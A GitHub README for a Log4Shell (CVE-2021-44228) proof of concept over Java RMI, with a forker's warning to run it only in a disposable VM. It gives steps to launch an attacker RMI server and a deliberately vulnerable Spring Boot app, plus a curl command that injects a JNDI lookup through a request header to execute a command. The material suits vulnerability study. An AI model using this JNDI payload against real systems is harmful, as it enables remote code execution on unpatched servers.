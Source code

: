 A minor change to the forked original:
1. Getting it to work
2. Getting it to work on a Linux VM with JDK 8
3. Limiting it to open its ports localy only

This code may contain malware and is known to contain vulnerabilities. 

Use at your own risk - if you use it, be advised to do that in a VM  - discard the VM after use.

# log4shell-rmi-poc
A Proof of Concept of the Log4j vulnerability (CVE-2021-44228) over Java-RMI
<br/>
It uses Log4j 2.5.7 from spring-boot-starter-log4j2


## Requirements:

Tested with Java 8 (JDK 1.8.0_25) and Java 11 (JDK 11.0.1)

## How to run the POC

### 1. Clone the repo:
```bash
git clone https://github.com/Labout/log4shell-rmi-poc.git
```

### 2. Start the attacker RMI Server

```bash
cd Log4jshell_rmi_server

./mvnw clean package

java -jar target/Log4jshell.rmi.server-0.0.1-SNAPSHOT.jar
```

You should get something like this:

![rmi server](./rmi_server.png)


### 3. Start the vulnerable Log4j application (here a spring boot application)

In a new Terminal 

```bash
cd vulnerabel_log4j_app

./mvnw clean package

java -jar target/vulnerabel_log4j_app-0.0.1-SNAPSHOT.jar
```


### 4. Inject a vulnerable JNDI over the "Accept-version" header

```bash
curl 'http://localhost:8080/hello' --header 'Accept-Version: ${jndi:rmi://127.0.0.1:1099/ExecByEL}'
```

The file /tmp/JNDIPoc gets updated (touch "/tmp/JNDIPoc" is executed).

## References 
https://www.cisecurity.org/log4j-zero-day-vulnerability-response/
<br>
https://www.lunasec.io/docs/blog/log4j-zero-day/
